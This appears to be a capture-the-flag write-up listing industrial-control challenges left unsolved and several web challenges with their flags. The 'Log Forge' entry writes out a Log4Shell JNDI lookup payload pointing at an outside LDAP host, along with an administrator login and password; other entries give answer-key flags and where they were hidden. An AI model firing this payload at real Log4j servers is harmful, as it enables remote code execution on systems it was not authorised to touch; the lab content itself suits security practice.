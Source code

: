 
---

## ICS

### Industrial Automation (1 of 3) (100) ❌

\-

### Industrial Automation (2 of 3) (100) ❌

\-

### Industrial Automation (3 of 3) (100) ❌

\-

---

## Web

### Log Forge (100) ✅

${jndi:ldap://mbuelow.dev/dump/index.php}
http://192.168.3.16:1389/o=example


Login
administrator:Lumberj4ck123!

Log4j


In ./flag.txt:
_flag{log4j_1n_th3_l0g_f0rg3}_

### Baby Web 1 (100) ✅
In the source code

_flag{never_gonna_l3t_you_down}_

### Baby Web 2 (100) ✅
In the certificate field "State/Province"

_flag{n3v3r_g0nna_giv3_y0u_up}_

### Baby Web 3 (100) ✅
In robots.txt

_flag{never_gonna_tell_a_l13}_

### Baby Web 4 (100) ✅
In a response header called "ctf"
